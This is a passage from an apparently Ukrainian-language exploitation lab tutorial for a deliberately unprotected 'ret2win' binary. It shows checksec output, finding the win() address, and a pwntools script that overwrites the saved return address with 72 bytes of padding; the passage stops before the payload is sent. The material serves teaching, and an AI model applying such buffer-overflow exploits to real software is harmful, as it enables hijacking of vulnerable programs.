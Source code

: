 ### Крок 2: Перевірте захисти

```bash
checksec --file=../build/stage06_ret2win
```

Очікуваний вивід:
```
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE (0x400000)
```

**Пояснення:**
- ❌ **No RELRO** - GOT можна перезаписати (не потрібно зараз)
- ❌ **No canary** - немає захисту від BOF
- ❌ **NX disabled** - стек виконуваний (не потрібно зараз, ми не використовуємо shellcode)
- ❌ **No PIE** - адреси фіксовані, легко знайти win()

Всі захисти **вимкнені** = ідеальні умови для навчання!

### Крок 3: Знайдіть адресу win()

```bash
objdump -d ../build/stage06_ret2win | grep '<win>'
```

Або через pwntools:
```python
from pwn import *
elf = ELF('../build/stage06_ret2win')
print(hex(elf.symbols['win']))
```

### Крок 4: Створіть exploit

Файл `exploit.py`:

```python
#!/usr/bin/env python3
from pwn import *

# Налаштування
context.arch = 'amd64'
context.log_level = 'info'

# Завантажуємо бінарник
elf = ELF('../build/stage06_ret2win', checksec=False)

# Отримуємо адресу win()
win_addr = elf.symbols['win']
log.info(f"Адреса win(): {hex(win_addr)}")

# Запускаємо процес
io = process('../build/stage06_ret2win')

# Читаємо банер
io.recvuntil(b'send your name\n')
log.info("Отримали підказку")

# Offset до saved RIP (наданий у statement)
OFFSET = 72

# Будуємо payload
padding = b'A' * OFFSET
ret_addr = p64(win_addr)
payload = padding + ret_addr

log.info(f"Payload: {OFFSET} байт padding + адреса win()")
```